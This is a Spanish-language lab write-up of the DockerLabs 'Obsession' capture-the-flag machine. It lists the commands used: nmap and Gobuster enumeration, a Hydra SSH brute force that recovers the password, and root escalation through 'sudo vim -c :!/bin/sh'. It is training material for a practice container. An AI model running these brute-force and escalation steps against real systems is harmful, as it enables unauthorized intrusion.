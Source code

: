 # Write-up - Obsession

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 13/06/2025  
**Aprendizaje:**  
- Refresqué conceptos relacionados con esteganografía, fuerza bruta y enumeración de directorios web.  
- Practiqué el uso de herramientas como `Gobuster`, `Hydra`, `Steghide`, `SCP` y `Vim` para escalar privilegios.  
- Reforcé el hábito de buscar información útil en el código fuente de páginas web.  
- Recordé que si un binario como `vim` aparece en `sudo -l`, es probable que se pueda explotar para obtener una shell privilegiada.  

> Repositorio del creador: [russ0ski/MyHackingRoad](https://russ0ski.github.io/MyHackingRoad/)

---

## Enumeración inicial  

### 1. Escaneo de puertos  

`sudo nmap -sSV -O --open 172.17.0.2`  

> Resultados:  
`21/tcp open — FTP (vsftpd 3.0.5)`  
`22/tcp open — SSH (OpenSSH 9.6p1)`  
`80/tcp open — HTTP (Apache 2.4.58)`  
`SO: Linux`  

## Fase de enumeración web  

### 2. Enumeración de directorios con Gobuster  

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/rockyou.txt -x php,html,txt -q -b 404,403`  

> Rutas encontradas:  
/important → contiene un texto que no fue de utilidad.  
/backup → revela el nombre de usuario: `russoski.`  

## Fuerza bruta y acceso SSH

### 3. Ataque con Hydra

`hydra -l russoski -P /usr/share/wordlists/rockyou.txt -V ssh://172.17.0.2`  

> Credenciales obtenidas:  
Usuario: `russoski`  
Contraseña: `iloveme`

### 4. Acceso SSH

`ssh -l russoski 172.17.0.2`  

## Fase de post-explotación

### 5. Revisión del directorio Proyectos

`cd Proyectos`  
`python3 Strong-Credentials.py`  

> Resultado:

Se genera una contraseña aleatoria: `KrG4V8zNictD3[Mqñ¿d5`

### 6. Revisión del directorio Documentos

En la carpeta "Documentos" me encuentro una imagen la cual me la copio.

`scp russoski@172.17.0.2:/home/russoski/Documentos/'Nikola Tesla.jpg' /home/kali/Desktop/img/Nikola_Tesla.jpg`  

### 7. Análisis esteganográfico

`steghide info Nikola_Tesla.jpg`  

> Resultado: Sin archivos embebidos visibles.     

## Acceso por FTP  

### 8. Conexión al servidor FTP  

Se accede con el mismo user/pass. Solo permite leer y descargar archivos ya conocidos.  

## Escalada de privilegios  

### 9. Verificación de permisos con sudo -l  

`sudo -l`  

> Resultado:

User russoski may run the following commands on <host>:  
    (ALL) NOPASSWD: /usr/bin/vim  

### 10. Ejecución del exploit vía GTFOBins

`sudo vim -c ':!/bin/sh'`  

### 11. Confirmación de privilegios  

> whoami = `root`
